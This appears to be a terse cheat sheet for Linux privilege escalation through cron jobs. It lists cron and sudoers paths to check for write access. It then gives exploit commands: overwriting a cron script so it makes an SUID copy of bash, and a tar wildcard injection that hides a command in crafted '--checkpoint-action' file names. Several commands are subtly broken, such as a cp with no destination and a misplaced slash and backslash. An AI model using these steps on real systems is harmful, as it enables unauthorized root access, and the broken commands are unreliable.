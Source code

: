 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
    cat /etc/crontab
    locate overwrite.sh
          
          
          
   
### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
          
          
          
          
   ## overwrite.sh Exploit
      
     touch /home/user/overwrite.sh
     echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
     chmod +x /home/user/overwrite.sh
     /tmp/bash -p




   ## compress.sh
   
    cat <PATH=compress.sh>
      
   ## OUTPUT
   
          #!/bin/sh
          cd /home/user
          tar czf /tmp/backup.tar.gz *
          
   ## Exploit wildcards
   
        echo 'cp /bin/bash/ /tmp/bash; chmod +s /tmp/bash' > asif.sh
        chmod 777 asif.sh
        touch /home/user/--checkpoint=1
        touch /home/user/--checkpoint-action=exec=sh\asif.sh
        /tmp//bash -p
        
        
        
        
        
   ## Change File permissions And Exploit
   
       locate overwrite.sh
       echo 'cp /bin/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
       /tmp/bash -p
   
   
   
   
     
